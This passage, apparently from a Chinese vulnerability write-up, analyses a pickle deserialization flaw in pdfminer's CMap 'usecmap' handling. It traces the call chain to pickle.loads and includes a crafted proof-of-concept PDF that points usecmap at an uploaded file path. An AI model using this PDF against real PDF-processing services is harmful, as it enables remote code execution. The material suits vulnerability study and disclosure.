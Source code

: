 PSStackParser 逐个读取 ToUnicode 流中的 token，遇到 `usecmap` 关键字时，栈顶是之前 push 的 CMap 路径 `/proc/self/cwd/uploads/l1`，这个路径被传给 CMapDB.get_cmap()，触发 pickle.loads。

### 利用链

```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFType1Font.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFSimpleFont.__init__(descriptor, widths, spec)
							cmapdb.py::CMapParser(unicode_map, stream).run()
								cmapdb.py::CMapParser.nextobject()
									cmapdb.py::CMapParser.do_keyword(KEYWORD_USECMAP)
										cmapdb.py::CMapDB.get_cmap(cmap_name)
											cmapdb.py::CMapDB._load_data(name)
```

PDF 格式体利用示例

```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 4 0 R >> >> /Contents 5 0 R >>
endobj

4 0 obj
<< /Type /Font /Subtype /Type1 /BaseFont /Helvetica /ToUnicode 6 0 R >>
endobj

5 0 obj
<< /Length 42 >>
stream
BT
/F1 12 Tf
50 700 Td
(Exploit PDF) Tj
ET
endstream
endobj

6 0 obj
<< /Length 95 >>
stream
/CIDInit /ProcSet findresource begin
/#2Fproc#2Fself#2Fcwd#2Fuploads#2Fl1 usecmap
end
endstream
endobj

xref
0 7
0000000000 65535 f
```